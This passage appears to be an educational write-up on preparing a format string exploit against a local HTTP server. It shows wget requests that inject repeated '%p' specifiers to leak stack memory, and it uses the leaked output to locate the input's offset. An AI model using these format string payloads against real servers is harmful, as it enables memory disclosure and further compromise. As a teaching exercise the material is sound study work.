 ## Preparation for Format String exploit
In order to exploit the Format String, we first have to prepare an exploitation strategy.
### Getting offset
We need to know our offset on the stack. In order to get the offset, we will write recognizable data onto the stack, then using the Format String to leak the stack and check where our data is written.

Let us use wget, so we don't have to worry about url-encoding:
```bash
root@silence:~# wget "localhost:9999/$(python -c 'print("AAAA" + 64 * " %p")')"
http://localhost:9999/AAAA%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p
```

Checking out the output on the server:
```
root@silence:~# ./httpserver
listen on port 9999, fd is 3
accept request, fd is 4, pid is 117426
127.0.0.1:47332 404 - AAAA 0xf7edb0dc 0xb8e4 0x194 0xffa711a8 0xffa70994 0xffa711ec
0x194 0xffa711a8 0xf7ef5450 0x70 0x5b2fed00 0x5663b000 0xf7eb2000 0xffa711a8
0x566386e3 0x194 0xffa711ec 0xffa70994 0x56639401 0xffa70964 0xffa70960 0xffa711ec
0x4 0xf7f09000 0xf7ee0594 0x194 (nil) 0xffffffff 0x56639401 0xffa70960 0x42dedaf
0xffa709f4 0xf7eda3e0 0xf7eda750 0x1 (nil) 0x1 0xf7eda110 0x1d000 (nil) (nil)
0xf7eb4558 0xf7eb2000 0x5715a008 0xf7dce6fc 0x5715a000 0xf7dce7b8 0x5715b000
0xf7eea936 0xf7ce2920 0xffa709fc 0xf7f09ab0 0x41414141 0x20702520 0x25207025
0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
0x20702520 0x25207025
request method:
GET
```
Now we have to look through the addresses and find our `AAAA` (`0x41414141`). Seems like our offset is lower than 64!

Let us lower it by 8 any try again:
```bash
root@silence:~# wget "localhost:9999/$(python -c 'print("AAAA" + (64 - 8) * " %p")')"
http://localhost:9999/AAAA%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p%20%25p
```
```bash
root@silence:~# ./httpserver
listen on port 9999, fd is 3
accept request, fd is 4, pid is 117461
127.0.0.1:47344 404 - AAAA 0xf7f3f0dc 0xb8f0 0x194 0xffc2d088 0xffc2c874 0xffc2d0cc
0x194 0xffc2d088 0xf7f59450 0x70 0xee313e00 0x56596000 0xf7f16000 0xffc2d088
0x565936e3 0x194 0xffc2d0cc 0xffc2c874 0x56594401 0xffc2c844 0xffc2c840 0xffc2d0cc
0x4 0xf7f6d000 0xf7f44594 0x194 (nil) 0xffffffff 0x56594401 0xffc2c840 0x42dedaf
0xffc2c8d4 0xf7f3e3e0 0xf7f3e750 0x1 (nil) 0x1 0xf7f3e110 0x1d000 (nil) (nil)
0xf7f18558 0xf7f16000 0x57ffd008 0xf7e326fc 0x57ffd000 0xf7e327b8 0x57ffe000
0xf7f4e936 0xf7d46920 0xffc2c8dc 0xf7f6dab0 0x41414141 0x20702520 0x25207025
0x70252070
```
If we count back 4 values, we are at our desired `0x41414141`.
